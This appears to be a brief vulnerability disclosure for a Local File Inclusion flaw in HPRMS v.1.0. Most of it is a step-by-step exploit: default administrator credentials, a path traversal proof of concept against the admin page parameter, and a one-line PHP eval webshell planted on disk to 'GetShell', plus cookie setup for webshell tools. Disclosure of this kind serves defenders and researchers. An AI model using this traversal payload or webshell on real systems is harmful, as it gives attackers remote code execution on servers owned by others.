




## Description: A Local File Inclusion issue in HPRMS v.1.0, the LFI can be use to code execution.
> 1、Login to the backstage as the administrator（admin|admin123）

> 2、Create a test.php file in C:\xampp\htdocs\hprms with the content '<?php phpinfo();?>'

> 3、POC：admin/?page=../test

> 4、GetShell：Create a test.php file in C:\ with the content '<?php @eval($_REQUEST[1]);?>'
> The webshell connection tools needs to configure a cookie: PHPSESSID=......

